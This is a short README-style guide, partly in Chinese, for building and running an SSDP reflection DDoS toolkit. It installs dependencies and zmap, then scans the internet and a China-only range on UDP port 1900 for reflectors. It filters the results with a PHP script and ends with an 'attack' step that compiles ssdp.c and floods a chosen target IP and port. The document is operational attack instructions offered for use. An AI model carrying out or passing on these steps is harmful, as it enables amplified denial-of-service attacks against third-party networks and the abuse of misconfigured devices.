 # SSDP
yum -y install gcc+ gcc-c++<br>
yum -y install gcc libcap libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c cpan vnstat zmap<br>
yum install cmake gmp-devel gengetopt libpcap-devel flex byacc json-c-devel libunistring-devel<br>
wget ftp://ftp.gnu.org/gnu/gengetopt/gengetopt-2.22.6.tar.gz<br>
tar -zvxf gengetopt-2.22.6.tar.gz<br>
cd gengetopt-2.22.6<br>
./configure<br>
make<br>
make install<br>
安装zmap<br>
yum install git<br>
git clone https://github.com/zmap/zmap<br>
cd zmap/<br>
cmake .<br>
make -j4<br>
make install<br>
安装完成！<br>
扫描全球：screen zmap -M udp -p 1900 --probe-args=file:upnp_1900.pkt -o ssdp.txt<br>
扫描国内：screen zmap -M udp -p 1900 -w cn.txt -B 100M --probe-args=file:upnp_1900.pkt -o ssdpscan.txt<br>
扫描完成后,我们开始执行过滤!<br>
过滤 ： php ssdpfilter.php ssdp.txt ssdpfiltered.txt 200 1000  <br>
200处理个数  1000线程<br>
全自动：screen ./scan 1<br>
自动过滤跟扫描，到时候表完成过后是ssdp.txt<br>
攻击：
gcc -pthread ssdp.c -o ssdp
./ssdp <target IP> <target port> <reflection file>  <time (optional)>
